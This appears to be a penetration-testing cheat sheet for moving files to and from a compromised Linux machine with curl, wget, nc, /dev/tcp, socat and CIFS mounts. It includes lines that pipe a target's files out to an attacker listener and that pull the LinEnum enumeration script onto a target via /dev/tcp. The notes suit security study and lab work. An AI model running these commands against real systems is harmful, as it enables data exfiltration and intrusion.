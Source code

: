 # Linux File Transfers


## Utilities

```bash
curl http://$IP/$file -o $file
wget http://$IP/$file
```

## Bash Redirection

Check `mount` if /`dev/shm/` has `no exec`, this is just an example
```bash
# Use nc to serve the file
nc -lvnp 80 < LinEnum.sh
# Target machine
mount | grep shm
bash -c "cat < /dev/tcp/$IP/$PORT > /dev/shm/LinEnum.sh"
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

## Ncat | Nc

Target machine
```bash
tar cf - . | nc $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Socat

Use [[Socat]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```


## SMB Cif-Utils

```shell
sudo mount -t cifs -o 'user=$username,password=$password' //$IP/share /mnt/sharename
```

[Kali Cif-Utils](https://www.kali.org/tools/cifs-utils/)


## References

[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)
[Kali Cif-Utils](https://www.kali.org/tools/cifs-utils/)
